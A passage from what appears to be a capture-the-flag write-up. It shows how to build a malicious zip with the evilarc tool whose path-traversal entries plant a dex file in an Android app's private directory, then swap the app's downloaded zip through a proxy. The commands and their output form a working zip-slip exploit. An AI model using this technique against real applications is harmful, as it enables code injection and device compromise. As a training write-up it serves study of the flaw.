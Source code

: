 A malicious zip could be created using [evilarc](https://github.com/ptoomey3/evilarc)

```bash
➜ python evilarc.py nn8ed.anotherthing.dex -d 10 -p "data/user/0/nn8ed.updateme/files/dex/" -o unix -f solution.zip
Creating solution.zip containing ../../../../../../../../../../data/user/0/nn8ed.updateme/files/dex/nn8ed.anotherthing.dex
➜ python evilarc.py a.jpg -d 0 -o unix -f solution.zip
Creating solution.zip containing a.jpg
➜ unzip -l solution.zip
Archive:  solution.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     1712  09-22-2018 16:44   ../../../../../../../../../../data/user/0/nn8ed.updateme/files/dex/nn8ed.anotherthing.dex
   392350  09-22-2018 16:50   a.jpg
---------                     -------
   394062                     2 files
```

## Getting the flag

In order to modify the zip that the application downloads we could simply use burp-suite or any other proxy tool.

![](imgs/09.png)
